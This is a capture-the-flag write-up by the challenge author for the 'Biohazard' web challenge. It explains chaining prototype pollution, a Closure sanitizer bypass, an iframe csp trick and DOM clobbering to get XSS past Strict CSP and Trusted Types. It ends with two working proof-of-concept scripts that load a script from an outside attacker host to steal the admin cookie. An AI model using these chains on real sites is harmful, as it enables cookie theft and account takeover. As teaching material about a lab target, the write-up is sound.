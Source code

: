 # Biohazard

## Objective

Find XSS in the Bio+ site, and use it to steal the admin cookie (i.e. flag).

## Purpose of the challenge

Given [Strict CSP](https://www.w3.org/TR/CSP3/#strict-csp) and [Trusted Types](https://www.w3.org/TR/trusted-types/) enforcement, I wanted to make a challenge which is still be vulnerable to XSS.
To mimic commonly used setup at Google, I've used [Closure Library](https://github.com/google/closure-library) and [safevalues](https://github.com/google/safevalues) which are both open sourced.
I've introduced a few vulnerabilities such as [Prototype Pollution](https://portswigger.net/web-security/prototype-pollution) and HTML injection. And I've also exposed several exploitation/bypass primitives such as [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering) (through HTML injection) and [use of template](https://github.com/shhnjk/shhnjk.github.io/blob/main/thoughts/digesting-the-concept-of-trusted-types.md#template-gadget).
The hope was to maximize the potential of unintended solutions, so that all of us can learn something out of this challenge.

## Intended solution

### Prototype Pollution

`Object.assign` is usually not vulnerable to Prototype Pollution, such as the following.

```js
Object.assign({}, JSON.parse('{"__proto__":{"polluted": true}}'));
console.log(Object.prototype.polluted); // undefined
```

However, it is vulnerable when `Object.prototype` is passed in the first argument.

```js
Object.assign(({})['__proto__'], JSON.parse('{"polluted": true}'));
console.log(Object.prototype.polluted); // true
```

And `main.js` has the same vulnerability.

```js
interestObj = {"favorites":{}};
const uuid = viewPath[1];
const xhr = new XMLHttpRequest();
xhr.addEventListener("load", () => {
  if (xhr.status === 200) {
    const json = JSON.parse(xhr.response);
    for (const key of Object.keys(json)) {
      if (interestObj[key] === undefined) {
        interestObj[key] = json[key];
      } else{
        Object.assign(interestObj[key], json[key]);
      }
    }
  } else {
    alert(xhr.response);
    location.href = '/';
  }
});
xhr.open('GET', `/bio/${uuid}`, false);
xhr.send();
```

Therefore, if you send a JSON request which contains `__proto__` key to the `/create` endpoint, you can cause Prototype Pollution in the bio page.

```js
fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"","favorites":{"hobbies":"","sports":""}, "__proto__": {"polluted": true}}`
});
```

### Closure sanitizer bypass

To render user supplied HTML in bio introduction, the challenge uses [Closure sanitizer](https://google.github.io/closure-library/api/goog.html.sanitizer.HtmlSanitizer.html). And because [Closure sanitizer can be bypassed with Prototype Pollution](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has), now you can inject arbitrary attributes in the bio HTML.

However, this does not lead to XSS, as the bio page has Strict CSP and Trusted Types enforced.

### Reviving XSS Auditor primitive

Now that we have Prototype Pollution and HTML injection (with arbitrary attribute control) in hand, what should we do?

In `bootstrap.js`, the `editor` variable looks suspicious.

```js
if (!location.pathname.startsWith('/view/')) {
  ...
  editor = (x=>x)`/static/editor.js`;
}
```

This `editor` variable is used in `main.js` to include additional script.

```js
import {safeScriptEl} from 'safevalues/dom';

...
function loadEditorResources() {
  ...
  const script = document.createElement('script');
  safeScriptEl.setSrc(script, trustedResourceUrl(editor));
  document.body.appendChild(script);
}

window.addEventListener('DOMContentLoaded', () => {
  render();
  if (!location.pathname.startsWith('/view/')) {
    loadEditorResources();
  }
});
```

If we can overwrite the `editor` attribute, we can trigger an XSS!

If you take a look at the Closure sanitizer config, you will notice that `<iframe>` is specifically allowed.

```js
var Const = goog.string.Const;
var unsafe = goog.html.sanitizer.unsafe;
var builder = new goog.html.sanitizer.HtmlSanitizer.Builder();
builder = unsafe.alsoAllowTags(
    Const.from('IFRAME is required for Youtube embed'), builder, ['IFRAME']);
sanitizer = unsafe.alsoAllowAttributes(
    Const.from('iframe#src is required for Youtube embed'), builder,
    [
      {
      tagName: 'iframe',
      attributeName: 'src',
      policy: (s) => s.startsWith('https://') ? s : '',
      }
    ]).build();
```

You can use the `csp` attribute in iframe to block certain resources inside iframe (using CSP), if the page inside iframe is same-origin as parent (similar to the [XSS Auditor](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection#:~:text=This%20code%20is,unsafe%20debug%20code.) primitive). Therefore, you can block `bootstrap.js` from loading.

```html
<iframe src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]" csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```

### Defining `editor`

Since the `editor` variable is undefined inside the iframe, we just need to define it. There are 2 ways of doing this.

1. Use HTML injection to define `editor` using DOM clobbering.
2. Use Prototype Pollution to define `editor`.

Note that since the `editor` script will be only loaded outside of `/view/` path, the iframe has to point to something else, such as `/views/view/`. This is possible because the challenge is an SPA and always configured to load the main page no matter what the URL is.

Here are the PoCs for creating XSS bio, by running script in the challenge page.

DOM clobbering:

```js
// https://biohazard-web.2023.ctfcompetition.com
const challengeOrigin = window.origin;
const cookieExfilScript = 'https://attack.shhnjk.com/alert.js';

const firstResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<a id=editor href=${cookieExfilScript}></a><a id=editor></a>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* ID": true}}`
});
const firstBio = await firstResponse.json();

const secondResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<iframe src=\\"${challengeOrigin}/views/view/${firstBio.id}\\" csp=\\"script-src ${cookieExfilScript} ${challengeOrigin}/static/closure-library/ ${challengeOrigin}/static/sanitizer.js ${challengeOrigin}/static/main.js 'unsafe-inline' 'unsafe-eval'\\"></iframe>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* CSP": true}}`
});
const secondBio = await secondResponse.json();

location.href = `/view/${secondBio.id}`;
```

Prototype Pollution:

```js
// https://biohazard-web.2023.ctfcompetition.com
const challengeOrigin = window.origin;
const cookieExfilScript = 'https://attack.shhnjk.com/alert.js';

const firstResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"","favorites":{"hobbies":"","sports":""}, "__proto__": {"editor": ["${cookieExfilScript}"]}}`
});
const firstBio = await firstResponse.json();

const secondResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<iframe src=\\"${challengeOrigin}/views/view/${firstBio.id}\\" csp=\\"script-src ${cookieExfilScript} ${challengeOrigin}/static/closure-library/ ${challengeOrigin}/static/sanitizer.js ${challengeOrigin}/static/main.js 'unsafe-inline' 'unsafe-eval'\\"></iframe>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* CSP": true}}`
});
const secondBio = await secondResponse.json();

location.href=`/view/${secondBio.id}`;
```

Hope you enjoyed it!
